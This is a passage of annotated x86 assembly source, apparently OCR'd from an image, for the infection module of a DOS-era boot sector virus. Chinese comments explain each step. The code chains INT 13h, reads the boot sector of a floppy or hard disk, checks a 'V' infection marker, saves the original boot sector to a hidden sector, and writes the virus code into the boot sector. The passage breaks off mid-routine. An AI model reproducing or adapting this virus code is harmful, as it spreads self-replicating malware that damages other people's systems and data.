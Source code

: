 ```asm
cli
JmpFar db 0eah ;远跳转指令
OldInt13Off dw ?
OldInt13Seg dw ?

; 手动模拟中断行为
@@CallInt13: 
pushf ;模拟Int 13h指令 
push cs
call @@JmpOldInt13
ret 

; 感染模块
@@OptDisk: ;传染dl表示的磁盘（dl-0 A: 80:C) 
; 保存现场
pusha
push ds
push es  ; 保存所有通用寄存器和段寄存器（ds, es）
push cs
pop es
push cs
pop ds   ; 设置 ds = es = cs，目的是数据访问统一指向代码段
; 读取原始引导扇区（Boot Sector）
mov bx, OFF OldBootSpace    ; 设置缓冲区偏移
mov ax, 0201h               ; AH=02（读扇区），AL=01（读1个扇区）
mov cx, 0001h               ; CH=柱面=0，CL=扇区=1（MBR 或软盘引导扇区）
mov dh, 00h                 ; 磁头号=0
call @@CallInt13            ; 读原引导扇区
jc short @@OptOver          ; 如果有错误（CF=1），跳过感染

; 检查是否已感染
mov di,bx
cmp ds:[di.VirusFlag],’V’ ;判断是否已经有病毒？
jz short @@OptOver ;若有，则退出
; 判断是否是软盘
cmp dl,00h
jz short @@IsOptFlopyDisk
@@IsOptHardDisk:
mov cx,0002h ;若是硬盘，保存在0面0道2扇区 
jmp short @@SaveOldBoot
; 设置软盘的病毒保存位置
@@IsOptFlopyDisk:
mov cx,79*100h+17 ;若是软盘，保存在0面79道17扇区 

; 将原引导扇区保存到某个位置
; 将病毒代码插入到引导扇区中
; 最后把被“感染”的新引导扇区写回到磁盘的第1扇区。
@@SaveOldBoot: 
mov ax,0301h 
mov dh,0h
call @@CallInt13 ;保存原引导扇区，调用中断13h，写入扇区（目标由 CX, DL 控制）
jc short @@OptOver
; 将病毒引导代码一部分写入到缓冲区（覆盖原Boot）
mov si,OFF @@Start
cld
movsw
movsb	; 写入病毒到引导扇区 

; 拷贝病毒完整代码到缓冲区后段
mov di,OFF @@Begin+200h
mov si,OFF @@Begin
mov cx,OFF @@End-OFF @@Begin
cld
```